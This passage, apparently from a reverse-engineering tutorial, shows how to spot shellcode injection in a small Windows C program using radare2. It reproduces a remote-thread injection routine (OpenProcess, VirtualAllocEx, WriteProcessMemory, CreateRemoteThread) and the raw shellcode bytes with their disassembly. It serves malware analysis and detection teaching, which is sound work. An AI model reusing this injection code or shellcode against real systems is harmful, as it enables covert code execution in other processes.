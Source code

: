 ```C
	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD) 10168);
	int id = 0 ;
	
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 100, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
}

```
When analysing it in radare2, the following should trigger an alert:
![s1](https://artik.blue/images/peinject/shellcode1.png)
An OpenProcess... OK but also a reference to a strange position:

![s2](https://artik.blue/images/peinject/shellcode2.png)

As we see, the shellcode can be examined very easily in radare2/Cutter/Iaito!!

And if we look at it closely, we can easily detect a string being loaded using the registers/stack:

![s3](https://artik.blue/images/peinject/shellcode3.png)

The process is similar from the debugger point of view:

```
 0x0040156d      e8ee010000     call sym.__main
|           0x00401572      488d45d0       lea rax, [var_30h]
|           0x00401576      488d158b2a00.  lea rdx, str.A_AWH1         ; 0x404008 ; "A_AWH1\xffH\xf7\xe7eH\x8bX`H\x8b[\x18H\x8b[ H\x8b\x1bH\x8b\x1bH\x8b[ I\x89\u060b[<L\x01\xc3H1\xc9f\x81\xc1\xff\x88H\xc1\xe9\b\x8b\x14\vL\x01\xc2M1\xd2D\x8bR\x1cM\x01\xc2M1\xdbD\x8bZ M\x01\xc3M1\xe4D\x8bb$M\x01\xc4\xeb2[YH1\xc0H\x89\xe2QH\x8b\f$H1\xffA\x8b<\x83L\x01\xc7H\x89\xd6\xf3\xa6t\x05H\xff\xc0\xeb\xe6YfA\x8b\x04DA\x8b\x04\x82L\x01\xc0S\xc3H1\u0240\xc1\aH\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9cH\xf7\xd0H\xc1\xe8\bPQ\xe8\xb0\xff\xff\xffI\x89\xc6H1\xc9H\xf7\xe1PH\xb8\x9c\x9e\x93\x9c\u045a\x87\x9aH\xf7\xd0PH\x89\xe1H\xff\xc2H\x83\xec A\xff\xd6AW\xc3"
|           0x0040157d      b9d5000000     mov ecx, 0xd5               ; 213
|           0x00401582      4989c8         mov r8, rcx
|           0x00401585      4889c1         mov rcx, rax
```
We can also inspect the shellcode:
```
[0x00401550]> pd @ str.A_AWH1
            ;-- str.A_AWH1:
            ; DATA XREF from dbg.main @ 0x401576
            0x00404008     .string "A_AWH1" ; len=7
            0x0040400f      48f7e7         mul rdi
            0x00404012      65488b5860     mov rbx, qword gs:[rax + 0x60]
            0x00404017      488b5b18       mov rbx, qword [rbx + 0x18]
            0x0040401b      488b5b20       mov rbx, qword [rbx + 0x20]
            0x0040401f      488b1b         mov rbx, qword [rbx]
            0x00404022      488b1b         mov rbx, qword [rbx]
            0x00404025      488b5b20       mov rbx, qword [rbx + 0x20]
            0x00404029  ~   4989d8         mov r8, rbx
            ;-- str.__L:
            0x0040402b     .string "\xd8\x8b[<L" ; len=6
            0x00404031      c3             ret
            0x00404032      4831c9         xor rcx, rcx
```
